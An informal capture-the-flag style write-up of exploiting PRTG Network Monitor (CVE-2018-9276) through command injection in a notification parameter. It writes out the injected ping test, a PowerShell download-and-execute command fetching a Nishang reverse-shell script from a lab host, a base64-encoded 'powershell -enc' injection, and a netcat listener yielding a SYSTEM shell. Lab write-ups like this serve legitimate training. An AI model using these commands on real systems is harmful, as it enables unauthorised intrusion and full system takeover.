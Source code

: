 Now upon googleing PRTG networkork monitor exploits i found this

https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/


also used the walkthrough and wirteup for this

Now

A Google search about the vulnerabilities yields a CVE for versions < 18.1.39 (CVE-2018-9276).


Now after going in 
	setup>notification>new notification(extreme righ side)

i put in the parameter to check if RCE is present 

test | ping -n 5 10.10.14.32

and i was able to ping myself

Now following the walkthrough


i installed nishang from github
https://github.com/samratashok/nishang


got a poswershell reverse tcp shell script


added below command at the end of the file

>Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 1337

hosted a python server where shell file is located using

>python -m http.server

got the sheel script downlaod through rce in notification paramter using below command:

>IEX(new-object                        
net.webclient).downloadstring('http://10.10.14.32/reverse.ps1')


check it was getting downlaodaed on the python commnad verbose

but it was notworking so followed the walkthrough and endcoded the script and put it directly intho the RCE

using below command:

┌──(root💀kali)-[~/Desktop/THM]
└─# cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard

this directly copied the output into by cliboad ( xclip command)

now pasted the injection into RCE 

>test | powershell -enc <paste copied data here>

started a netcat listener on port 1337

and after running the notification i got a shell on netcat listener

	PS C:\Windows\system32>whoami 
	nt authority\system






